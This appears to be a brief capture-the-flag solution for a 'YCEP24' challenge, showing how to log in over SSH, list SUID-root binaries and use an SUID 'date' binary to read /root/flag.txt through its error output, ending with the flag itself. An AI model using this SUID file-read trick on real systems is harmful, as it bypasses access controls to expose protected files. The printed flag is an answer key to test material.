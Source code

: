 # Solution

1. SSH into the server using this command syntax. (ycep24:ycep24)
* ssh ycep24@IP-Address -p PORT-NO

2. Find any files that owned by root with SUID bit set.
* find / -perm -4000 2>/dev/null

3. Use **date** command to leak the flag.
* date -f /root/flag.txt
```
$ date -f /root/flag.txt
date: invalid date 'YCEP24{D4te_c4n_b3_al1ve_s0met1me}'
```

Flag: ```YCEP24{D4te_c4n_b3_al1ve_s0met1me}```